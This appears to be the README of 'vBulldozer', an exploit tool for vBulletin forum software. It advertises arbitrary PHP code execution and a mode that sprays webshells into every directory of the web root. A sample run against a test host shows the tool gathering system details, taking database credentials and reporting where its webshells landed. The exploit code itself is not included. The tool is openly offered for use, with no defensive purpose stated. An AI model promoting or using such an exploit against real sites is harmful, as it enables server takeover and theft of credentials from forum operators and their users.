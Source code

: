 # vBulldozer
Very loud vBulletin exploit, WIP.

Currently gives you a way to execute arbritary PHP code, and does some info-gathering. Deliberately loud as heck. 

It uses a really dumb trick (recursively trying to drop a webshell into every directory) to attempt to guarentee some form of webshell will be obtained.

I mostly wrote that as a joke, its called "equifax mode", as it could lead to you spraying like 30 webshells all over the webroot. 

This is the loudest, most unclean, exploit I think I've written in a while. It has absolutely zero stealth features.

```
$ python vBulldozer.py https://vb.test.local/
{+} Checking https://vb.test.local/
{*} Target is vulnerable!
{+} Proceeding...
{+} Gathering some system information...
{>} PHP uname: Linux vb 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
{>} Current UID: 33
{>} Current Dir: /var/www/html
{+} Gathering database credentials...
{>} Database Host: localhost
{>} Database User: vb
{>} Database Pass: password123
{*} Got 3 paths to try...
{*} Using remote CWD: /var/www/html
{+} Checking https://vb.test.local/includes/vb5/template/bbcode/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/bbcode/hax.php
{+} Checking https://vb.test.local/includes/vb5/template/cache/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/cache/hax.php
{+} Checking 
{+} Done!
$
```

Todo:
* Maybe implement this whole gubbins for previous vb 5.x exploits - a rewrite of my old vBullshit might be in order?
* Fix bugs. 
* Add more bugs.

Licence:
WTFPL
